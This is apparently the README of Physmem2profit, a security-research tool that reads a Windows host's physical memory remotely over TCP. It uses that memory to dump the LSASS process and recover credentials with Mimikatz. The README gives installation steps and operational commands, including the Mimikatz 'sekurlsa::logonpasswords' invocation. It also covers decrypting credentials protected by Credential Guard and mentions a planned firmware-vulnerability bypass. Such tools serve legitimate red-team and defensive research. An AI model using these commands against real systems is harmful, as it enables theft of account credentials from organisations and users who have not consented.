

# Physmem2profit

Physmem2profit can be used to create a minidump of a target host's LSASS process by analysing physical memory remotely. The intention of this research is to propose an alternative approach to credential theft and create a modular framework that can be extended to support other drivers that can access physical memory. Physmem2profit generates a minidump (.dmp) of LSASS that can be further analyzed with Mimikatz. The tool does not require Cobalt Strike but should work fine over beacon with a SOCKS proxy.

The idea is illustrated below:



The tool has two components:

1. The C# server component, `physmem2profit.exe`, executed on the target host
    * Loads the Winpmem driver and acts as a server, which exposes the physical RAM of the target host through a TCP port
1. The client, `physmem2profit` Python module, executed on the attacking machine
    * When executed with `--mode mount`, connects to the target machine and mounts the physical RAM of the target as a raw file with the help of [FUSE](https://en.wikipedia.org/wiki/Filesystem_in_Userspace)
    * When executed with `--mode dump`, calls various [Rekall](https://github.com/google/rekall) plugins to analyze the memory image and to generate a minidump of the LSASS process.
    * When executed with `--mode all`, performs both of the above actions. Connection with server will be closed when dump is complete.

## Installation Instructions

1. Clone the Physmem2profit Git repository: `git clone --recurse-submodules https://github.com/FSecureLABS/physmem2profit.git`
1. For the server running on the target computer:
    1. Build `physmem2profit/server/Physmem2profit.sln` with Visual Studio
1. For the client running on the attacking machine:
    1. `bash physmem2profit/client/install.sh`

## Usage

1. Run `physmem2profit.exe [--ip IP] [-p PORT] [--hidden] [--verbose]` on the target as admin.
    * You can download the signed Winpmem driver [here](https://github.com/Velocidex/WinPmem/raw/master/kernel/binaries/winpmem_x64.sys). This driver needs to be present on the target host.
1. Run `source physmem2profit/client/.env/bin/activate` on the attacking machine. This command will activate the virtualenv created by `install.sh`.
1. Run `cd physmem2profit/client` and ```python3 physmem2profit --host HOST [--port PORT] [--mode MODE] [--driver DRIVER ] [--instal DRIVER_PATH_ON_TARGET] [--label LABEL_FOR_MEMORY_DUMP]``` on the attacking machine
    * `physmem2profit.exe` needs to be running on the target machine before you run this command.
    * This will write the LSASS minidump to `output/[label]-[date]-lsass.dmp` on the attacking machine.
1. Copy the minidump to a Windows system and run `mimikatz.exe "sekurlsa::minidump [label]-[date]-lsass.dmp" "sekurlsa::logonpasswords" "exit"`

## Credential Guard

Decrypting credentials protected by Credential Guard requires gaining access to the encryption key that is stored in the Secure World. For testing purposes, Physmem2profit supports retrieving data from the Secure World from VMware Fusion/Workstation snapshots (.vmem files). This allows credentials protected by Credential Guard to be decrypted with the help of Mimikatz.

### Setting up a virtual machine for testing

1. Create a Windows 10 virtual machine with VMware Fusion/Workstation. Join the virtual machine to a domain (Credential Guard [does not protect](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-protection-limits) local accounts)
1. In the Advanced settings, Enable VBS (Virtualization Based Security)
1. Deploy Credential Guard. An easy option is to use the [Device Guard and Credential Guard hardware readiness tool](https://www.microsoft.com/en-us/download/details.aspx?id=53337)
1. Reboot
1. Run `msinfo32` to ensure `Virtualization-based security Services Running` says `Credential Guard`

### Testing

1. Log in to the virtual machine (with a domain account)
1. Take a snapshot
1. Run Physmem2profit against the .vmem file: ```python3 physmem2profit --mode dump --vmem /tmp/Win10-Snapshot1.vmem --label credential-guard-test```
    * This will write the LSASS minidump to `output/[label]-[date]-lsass.dmp`. The minidump contains a special stream that holds the data from the Secure World, allowing Mimikatz to locate the encryption key.
    * The Secure World data is also stored to `output/[label]-[date]-secure-world.raw`.
    * If Rekall has problems parsing the .vmem file, Physmem2profit will recommend you to copy the .vmsn file and rename it to .vmss
1. Copy the minidump to a Windows system and run `mimikatz.exe "sekurlsa::minidump [label]-[date]-lsass.dmp" "sekurlsa::logonpasswords" "exit"`

### Future work

The support for bypassing Credential Guard by exploiting the [S3 Resume firmware vulnerability](https://www.kb.cert.org/vuls/id/976132/), demonstated in our [Disobey talk](https://disobey.fi/2020/profile/lets_get_physical), is coming soon :).

## More Information

[Rethinking Credential Theft](https://labs.f-secure.com/blog/rethinking-credential-theft/) | a blog post explaining why this approach to credential theft was chosen.

Physmem2profit is developed by [@b3arr0](https://twitter.com/b3arr0) and [@TimoHirvonen](https://twitter.com/TimoHirvonen).

Kudos for contributing:
* Janusz Szmigielski for refactoring the code for the first release
* Pawel Kurowski for refactoring the code for the first release
* Grzegorz Rychlik for refactoring the code for the first release
